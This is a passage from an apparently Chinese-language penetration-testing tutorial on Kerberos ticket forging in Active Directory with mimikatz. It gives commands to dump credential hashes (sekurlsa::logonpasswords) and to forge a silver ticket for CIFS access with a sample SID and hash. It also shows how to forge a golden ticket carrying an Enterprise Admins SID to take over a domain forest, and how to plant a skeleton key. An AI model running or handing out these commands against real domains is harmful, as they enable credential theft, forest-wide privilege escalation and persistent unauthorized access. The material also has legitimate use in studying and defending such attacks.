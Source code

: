 

```
1.域名称
2.域的SID值
3.域的服务账户的密码HASH（不是krbtgt，是域控）
4.伪造的用户名，可以是任意用户名，这里是silver
```
利用过程
```
首先我们需要知道服务账户的密码HASH，这里同样拿域控来举例，通过mimikatz查看当前域账号administrator的HASH值。注意，这里使用的不是Administrator账号的HASH，而是OWA2010SP3$的HASH
```
```
sekurlsa::logonpasswords
```
这时得到了OWA2010SP3$的HASH值，通过mimikatz生成银票。


参数说明：
```
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

/
```
kerberos::golden /domain:0day.org /sid:S-1-5-21-1812960810-2335050734-3517558805 /target:OWA2010SP3.0day.org /service:cifs /rc4:125445ed1d553393cce9585e64e3fa07 /user:silver /ptt
```
### 使用mimikatz创建具有 EnterpriseAdmins组权限（域林中的最高权限）的票据




如果知道根域的SID那么就可以通过子域的KRBTGT的HASH值，使用mimikatz创建具有 EnterpriseAdmins组权限[RID=519]（域林中的最高权限）的票据。


然后通过mimikatz重新生成包含根域SID的新的金票
Startoffset和endin分别代表偏移量和长度，renewmax表示生成的票据的最长时间。


```
Step 1. 获取根域的sid(powerview module): Convert-NameToSid uknowsec.cn\krbtgt 
Step 2. kerberos::golden /admin:administrator /domain:news.uknowsec.cn /sid:XXX(Child-DomainSid) /sids:XXX-519(填入刚刚获取到的根域SID, RID=519为Enterprise Admins组) /krbtgt:XXX /startoffset:0 /endin:600 /renewmax:10080 /ptt
```


### MImikatz万能钥匙
```
privilege::debug
misc::skeleton
```
